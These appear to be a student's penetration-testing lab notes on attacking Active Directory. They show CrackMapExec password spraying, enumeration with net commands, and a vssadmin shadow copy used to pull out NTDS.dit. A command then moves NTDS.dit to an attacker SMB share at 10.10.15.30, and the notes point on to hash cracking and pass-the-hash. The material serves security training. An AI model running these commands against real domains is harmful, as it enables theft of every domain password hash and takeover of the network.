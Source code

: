 # Attacking Active Directory & NTDS.dit

* Once a Windows system is joined to a domain, it will `no longer default to referencing the SAM database to validate logon requests`.
  * This does not mean the SAM database can no longer be used.
  * to log on using a local account in the SAM database can still do so by
    * specifying the `hostname` of the device proceeded by the `Username` (Example: `WS01/nameofuser`)
    * or with direct access to the device then typing `./` at the logon UI in the `Username` field.

**Launching the Attack with CrackMapExec**

* \[\[CrackMapExec]]

```shell-session
crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```

* if the admins configured an account lockout policy, this attack could lock out the account that we are targeting
* At the time of this note (January 2022), an account lockout policy is not enforced by default with the default group policies that apply to a Windows domain, meaning it is possible that we will come across environments vulnerable to this exact attack we are practicing.

### Capturing NTDS.dit

* `NT Directory Services` (`NTDS`) is the directory service used with AD to find & organize network resources.
  * the `NTDS.dit` file is stored at `%systemroot%/ntds` on the domain controllers in a [forest](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/using-the-organizational-domain-forest-model). The `.dit` stands for [directory information tree](https://docs.oracle.com/cd/E19901-01/817-7607/dit.html).
  * This is the primary database file associated with AD and stores all domain usernames, password hashes, and other critical schema information

!\[\[Evil-WinRM#Evil-WinRM Usage]]

**Checking Local Group Membership**

```shell-session
net localgroup
```

```shell-session
Aliases for \\DC01

-------------------------------------------------------------------------------
*Access Control Assistance Operators
*Account Operators
*Administrators
*Allowed RODC Password Replication Group
*Backup Operators
*Cert Publishers
*Certificate Service DCOM Access
*Cryptographic Operators
*Denied RODC Password Replication Group
*Distributed COM Users
*DnsAdmins
*Event Log Readers
*Guests
*Hyper-V Administrators
*IIS_IUSRS
*Incoming Forest Trust Builders
*Network Configuration Operators
*Performance Log Users
*Performance Monitor Users
*Pre-Windows 2000 Compatible Access
*Print Operators
*RAS and IAS Servers
*RDS Endpoint Servers
*RDS Management Servers
*RDS Remote Access Servers
*Remote Desktop Users
*Remote Management Users
*Replicator
*Server Operators
*Storage Replica Administrators
*Terminal Server License Servers
*Users
*Windows Authorization Access Group
The command completed successfully.
```

**Checking User Account Privileges including Domain**

```shell-session
net user bwilliamson
```

```shell-session
User name                    bwilliamson
Full Name                    Ben Williamson
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/13/2022 12:48:58 PM
Password expires             Never
Password changeable          1/14/2022 12:48:58 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   1/14/2022 2:07:49 PM

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Users         *Domain Admins
The command completed successfully.
```

* This account has both Administrators and Domain Administrator rights which means we can do just about anything we want, including making a copy of the NTDS.dit file.

**Creating Shadow Copy of C:**

* When all the components support Volume Shadow Copy (VSS), you can use them to back up your application data without taking the applications offline
* We can use vssadmin to create a Volume Shadow Copy (VSS) of the C: drive or whatever volume the admin chose when initially installing AD.
  * It is very likely that NTDS will be stored on C: as that is the default location selected at install, but it is possible to change the location.

```shell-session
 vssadmin CREATE SHADOW /For=C:
```

```shell-session
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```

**Copying NTDS.dit from the VSS**

```shell-session
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

* \[\[Create SMB server Linux (HACK)]]

```shell-session
cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 
```

### Crack the NT hash with hashcat

!\[\[Hashcat#Cracking the NT Hash with Hashcat]]

* What if we are unsuccessful in cracking a hash?
* use \[\[Evil-WinRM#Pass-the-Hash|Pass the Hash]]

### Pass-the-Hash Considerations

* \[\[Pass the Hash (PtH)]] !\[\[Evil-WinRM#Pass-the-Hash with Evil-WinRM Example]]
